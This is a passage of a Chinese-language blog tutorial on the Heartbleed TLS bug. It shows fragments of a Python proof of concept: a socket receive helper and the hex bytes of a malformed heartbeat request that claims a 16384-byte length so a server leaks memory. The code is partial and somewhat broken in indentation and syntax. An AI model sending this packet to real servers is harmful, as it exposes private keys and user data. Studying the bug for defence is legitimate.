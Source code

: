 ```        
        if pay is None:
            return None, None, None
 
        return typ, ver, pay

    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            print 'read: ', r
            if s in r:
                data = s.recv(remain)
            
        # EOF?
        if not data:
            return None
        rdata += data
        remain -= len(data)
        hexdump(rdata)
        return rdata


```

Server Hello 消息返回, 说明TTL/SSL 会话成功建立, 此过程伴随有Certificate, Server Key Exchange, Server Hello Done.

###发送畸形heartbleed数据

Server Hello成功返回后, 向服务器发送畸形heartbleed请求. 如果服务器响应, 会伴随有Encrypted Heartbeats Message，也就是泄露的内存数据.

```

s.send(h2bin(hb))  # Malformed Packet

```

Heartbleed 包数据如下:

```

    ---------TLSv1---[Heartbeat Request]------------
    # It's a fake heartbeat package, the length is not as long as it's claimed
    hb = [
          # TLSv1.1 Record Layer: Heartbeat Request
    "18"      # Content Type: Heartbeat (24) ---- (0x18)
    "03 02"   # Version: TLS 1.1 (0x0302)
    "00 03"   # Heartbeat Message: 
    "01"      #    Type: Request (1) (0x01)
    "40 00"   #    Payload Length: (16384) (0x4000),服务器会复制内存中16384字节的数据，并发挥给客户端
    ]

```


[id]: https://github.com/chyun/Blog/blob/gh-pages/images/20140611_TLS.jpg
